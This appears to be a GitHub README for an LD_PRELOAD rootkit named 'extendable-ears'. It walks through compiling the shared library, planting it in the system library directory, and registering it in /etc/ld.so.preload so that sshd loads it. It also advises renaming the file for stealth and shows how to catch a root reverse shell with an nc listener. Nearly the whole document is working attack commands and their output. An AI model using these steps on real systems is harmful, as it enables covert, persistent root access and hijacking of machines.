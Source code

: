 
Compile:
```bash
root@attacker:~# gcc extendable-ears.c -o extendable-ears.so -fPIC -shared -ldl -D_GNU_SOURCE
```

## Installation
On the target, copy the shared library/rootkit to where the other shared libraries reside.

64-bit example:
```bash
root@victim:~# cp extendable-ears.so /lib/x86_64-linux-gnu/
```
And copy the path of the rootkit into /etc/ld.so.preload.
```bash
root@victim:~# echo "/lib/x86_64-linux-gnu/extendable-ears.so" > /etc/ld.so.preload
root@victim:~# echo "/lib/extendable-ears.so" > /etc/ld.so.preload
```

I would advise renaming `extendable-ears.so` to something more stealthy.

### Verify installation
You can check if the rootkit is installed by running```ldd``` and checking that your malicious library gets loaded.
```bash
root@victim:~# ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/extendable-ears.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
root@victim:~# cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/extendable-ears.so
```

## Usage
1. Install as above
2. Start a listener to receive reverse shell
```bash
root@attacker:~# nc -lvnp 9001
```
3. SSH to the target machine. A shell should spawn on your listener.
It (almost) always doens't work the first time, so SSH twice.
```bash
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
root@attacker:~# ssh hey@10.11.0.56
hey@10.11.0.56's password:
^C
```
```bash
root@attacker:~# nc -lvnp 9001
[...]
Connection received
[+] spawning shell... 
id
uid=0(root) gid=0(root) groups=0(root)
```

## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
root@victim:~# rm /etc/ld.so.preload
root@victim:~# rm /lib/x86_64-linux-gnu/extendable-ears.so
```

